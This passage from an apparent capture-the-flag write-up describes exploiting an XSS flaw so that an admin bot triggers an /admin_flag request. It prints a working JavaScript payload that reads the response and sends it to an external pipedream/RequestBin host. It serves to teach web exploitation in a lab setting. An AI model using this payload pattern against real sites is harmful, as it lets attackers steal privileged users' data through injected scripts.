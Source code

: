 3. The `/admin_flag` endpoint itself is pretty tricky. When I tried to visit the endpoint directly as myself (not an admin), it says that only the admin can access them.
 
	![87ecbb8281b5ef0501dbaa42a5e7dc9e.png](/assets/images/d24fabdeeadf4c9986f4db5979e4e66b.png)

By that information, I continue exploiting the XSS vulnerability to make the admin perform a request to `/admin_flag` and send the response to my RequestBin endpoint. That could be achieved simply by calling the `f` function or emulating a button click against the Access Flag button, then take the content of the `responseAlert` tag where the response from `/admin_flag` endpoint would be placed. 

Here's the payload:

```
<script>
window.addEventListener("load", function(event) {
	var targetButton = document.getElementsByClassName("flag-button");

	targetButton[0].onclick = function fun() {
		var probe = setInterval(function(){ 
			let flag = document.getElementById('responseAlert').innerHTML;
	        var req = new XMLHttpRequest();
		    req.open('GET', 'https://enit8s845uv8.x.pipedream.net/?theflag=' + flag);
			req.onreadystatechange = function() {
			  console.log(flag);
			};
			req.send();
		}, 1000);
		setTimeout(function( ) { clearInterval( probe ); }, 3000);
	}

	targetButton[0].click();
});
</script>
```

I used `setInterval` because I reckon there is a possibility that the AJAX request to `/admin_flag` could not be done instantly. I'm afraid there might be a slight delay until the response is placed inside the `responseAlert` tag to be taken (it's an Asynchronous-JAX after all). So the payload will get whatever it is inside the `responseAlert` tag and perform a request to my RequestBin endpoint, carrying the (hopefully) flag. The operation will run every second until three seconds have passed (notice that I also used `setTimeout` and `clearInterval` to stop my `setInterval`).

And finally, here's the result:


![595063116aae188235d6601642b077d4.png](/assets/images/af6fd075fbcf4c9485b17f0e13f7d0b9.png)
